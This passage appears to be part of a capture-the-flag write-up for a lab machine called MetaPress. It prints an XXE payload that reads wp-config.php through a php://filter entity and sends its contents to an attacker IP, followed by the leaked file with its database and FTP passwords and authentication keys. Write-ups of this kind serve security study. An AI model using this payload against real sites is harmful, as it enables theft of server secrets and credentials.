 ### WP Config file

- I really want to find the wp-config.php. Ok so turns out that the absolute path `/var/www/metapress.htb/` did not work what worked was a relative path `../wp-config.php`. It looks like that it is because I was missing a part of the absolute path `/var/www/metapress.htb/blog/wp-config.php`
- For some reason with the slib the file was truncated so my evil.dtd file looks like this

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=../wp-config.php">
<!ENTITY % init "<!ENTITY &#37; trick SYSTEM 'http://10.10.14.4/?p=%file;'>" >
```

- To decode the base64 we can also use bash as follow:
```
echo -n 'BASE64-STRING-HERE' | base64 --decode
```

- And here is the wp-config.php file

```php
<?php
/** The name of the database for WordPress */
define( 'DB_NAME', 'blog' );

/** MySQL database username */
define( 'DB_USER', 'blog' );

/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );

/**#@+
 * Authentication Unique Keys and Salts.
 * @since 2.6.0
 */
define( 'AUTH_KEY',         '?!Z$uGO*A6xOE5x,pweP4i*z;m`|.Z:X@)QRQFXkCRyl7}`rXVG=3 n>+3m?.B/:' );
define( 'SECURE_AUTH_KEY',  'x$i$)b0]b1cup;47`YVua/JHq%*8UA6g]0bwoEW:91EZ9h]rWlVq%IQ66pf{=]a%' );
define( 'LOGGED_IN_KEY',    'J+mxCaP4z<g.6P^t`ziv>dd}EEi%48%JnRq^2MjFiitn#&n+HXv]||E+F~C{qKXy' );
define( 'NONCE_KEY',        'SmeDr$$O0ji;^9]*`~GNe!pX@DvWb4m9Ed=Dd(.r-q{^z(F?)7mxNUg986tQO7O5' );
define( 'AUTH_SALT',        '[;TBgc/,M#)d5f[H*tg50ifT?Zv.5Wx=`l@v$-vH*<~:0]s}d<&M;.,x0z~R>3!D' );
define( 'SECURE_AUTH_SALT', '>`VAs6!G955dJs?$O4zm`.Q;amjW^uJrk_1-dI(SjROdW[S&~omiH^jVC?2-I?I.' );
define( 'LOGGED_IN_SALT',   '4[fS^3!=%?HIopMpkgYboy8-jl^i]Mw}Y d~N=&^JsI`M)FJTJEVI) N#NOidIf=' );
define( 'NONCE_SALT',       '.sU&CQ@IRlh O;5aslY+Fq8QWheSNxd6Ve#}w!Bq,h}V9jKSkTGsv%Y451F8L=bL' );

/**
 * WordPress Database Table prefix.
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
```